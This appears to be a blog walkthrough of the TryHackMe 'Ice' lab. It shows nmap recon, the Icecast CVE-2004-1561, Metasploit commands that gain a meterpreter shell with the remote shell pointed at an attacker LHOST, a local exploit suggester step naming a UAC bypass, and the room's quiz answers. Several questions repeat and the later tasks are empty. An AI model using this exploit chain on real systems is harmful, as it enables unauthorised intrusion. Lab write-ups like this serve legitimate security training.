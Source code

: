 ```yaml
---
title: "TryHackMe Ice - Walkthrough"
toc: true
toc_label: "Table of Contents"
toc_icon: "list-alt"
toc_sticky: true
categories:
  - Blog
tags:
  - Cybersecurity
  - Windows
  - Penetration Testing
  - Ethical Hacking
  - TryHackMe
  - CTF
  - Privilege Escalation
  - Machines
#teaser: assets/images/thm/thm-ice00.png  Path to the teaser image
tagline: "ICE - Tryhackme Walkthrough by Nisha."
header:
  overlay_filter: rgba(0, 0, 0, 0.5)
  overlay_image: /assets/images/ice-0.png
  caption: "Photo credit: [**imgur**](https://imgur.com/6Ijftag)"
---
```



<h5>>Deploy & hack into a Windows machine, exploiting a very poorly secured media server. </h5>

<img src="/assets/images/thm/ice-1.png">
Room:<a href="https://tryhackme.com/r/room/ice"> https://tryhackme.com/r/room/ice</a>


{% include toc %}

## Task 1 - Connect 

Get connected to the TryHackMe network using OpenVPN. Make sure to first download your configuration file from <a href="http://tryhackme.com/access ">your access page. </a>



## Task 2 - Recon

Click on Start Machine to deploy the machine!

<img src="/assets/images/thm/ice-2.png">

Time to Scan and Enumerate our target!


An NMAP scan reveals the following ports were discovered to be open:

<img src="/assets/images/thm/ice-3.png">

<strong> Q: One of the more interesting ports that is open is Microsoft Remote Desktop (MSRDP). What port is this open on? </strong><br>
<em> Answer: 3389</em>




<strong> Q: What service did nmap identify as running on port 8000? (First word of this service) </strong><br>
<em> Answer: Icecast </em>

<img src="/assets/images/thm/thm-ice-4.png">


<strong> Q: What does Nmap identify as the hostname of the machine? (All caps for the answer) </strong><br>
<em> Answer: DARK-PC </em>

<img src="#">


## Task 3 - Gain Access

In this task we must find a way to exploit any vulnerable services on the target to gain a foothold. The cvedetails website reveals that the impact score and the CVE number for this vulnerability as displayed in the image below. 


<strong> Q: What is the Impact Score for this vulnerability? Use <a href="https://www.cvedetails.com">https://www.cvedetails.com> </a> for this question and the next.  </strong><br>
<em> Answer: 6.4 </em>

<img src="/assets/images/thm/thm-ice-6.png">


<strong> Q: What is the CVE number for this vulnerability?  </strong><br>
<em> Answer: CVE-2004-1561 </em>

It is time to use the information that we have collected to locate an exploit for our target.  We will use automation for this exploitation exercise with Metasploit being our tool of choice. 

Type "msfconsole" to launch the Metasploit Framework. <br>

<img src="/assets/images/thm/thm-ice-7.png">

<strong> Q: After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? If you are not familiar with metasploit, take a look at the Metasploit module. </strong><br>
<em> Answer: exploit/windows/http/icecast_header</em>

<img src="/assets/images/thm/thm-ice-8.png">

<strong> # use exploit/windows/http/icecast_header </strong> <br>

<img src="/assets/images/thm/thm-ice-9.png">

<strong> # set RHOSTS <em>targetIPaddress </em> </strong> <br>
<img src="/assets/images/thm/thm-ice-10.png">

<strong> # set LHOST <em> attackerIPaddress or interface </em> </strong> <br>

<img src="/assets/images/thm/thm-ice-11.png">


<strong> # set LHOST <em> attackerIPaddress or interface </em> </strong> <br>

<strong> # exploit </strong> <br>

<img src="/assets/images/thm/thm-ice-12.png">



## Task 4 - Escalate

<h5> Our goal for this task is to complete any local enumeration to discover paths to escalte our privileges in our quest to gain Admin powers. </h5>


<strong> Q: Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now? </strong><br>
<em> Answer: meterpreter </em>


<strong> > getuid </strong> <br>

<strong> Q: What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'Metasploit' module. </strong><br>
<em> Answer: Dark </em>




<strong> Q: What build of Windows is the system? </strong><br>
<em> Answer: 7601 </em>

<img src="/assets/images/thm/thm-ice-13.png">


<strong> Q:Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running? </strong><br>
<em> Answer: x64 </em>


Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete* <br>

>  run post/multi/recon/local_exploit_suggester

<strong> Q: Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit? </strong><br>
<em> Answer: exploit/windows/local/bypassuac_eventvwr </em>

<img src="/assets/images/thm/thm-ice-14.png">


<strong> Q: What build of Windows is the system? </strong><br>
<em> Answer: 7601 </em>

<strong> Q: What build of Windows is the system? </strong><br>
<em> Answer: 7601 </em>



<img src="/assets/images/thm/thm-ice-15.png">
<img src="/assets/images/thm/thm-ice-16.png">

<img src="/assets/images/thm/thm-ice-17.png">
<img src="/assets/images/thm/thm-ice-18.png">



## Task 5 - Looting

## Task 6 - Post-Exploitation

## Task 7 - Extra Credit

